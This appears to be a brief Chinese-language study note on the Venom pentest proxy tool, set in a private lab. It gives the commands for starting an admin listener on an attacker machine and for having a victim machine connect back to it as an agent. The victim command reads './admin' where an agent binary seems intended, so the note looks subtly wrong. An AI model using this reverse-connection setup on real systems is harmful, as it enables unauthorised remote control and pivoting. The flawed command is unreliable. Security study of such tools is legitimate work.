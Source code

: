 ## Venom命令学习(毒液)

---

- [下载地址](https://github.com/Dliv3/Venom)

---

- 基本命令

- 攻击机 192.168.31.46

- 被攻击机 192.168.56.6 192.168.31.139

  - 攻击机 admin创建管理节点
    ```shell
    ./admin -lport 8888
    ```

  - 被攻击机 agent加入节点
    ```shell
    ./admin -rhost 192.168.31.46 -rport 8888
    ```

    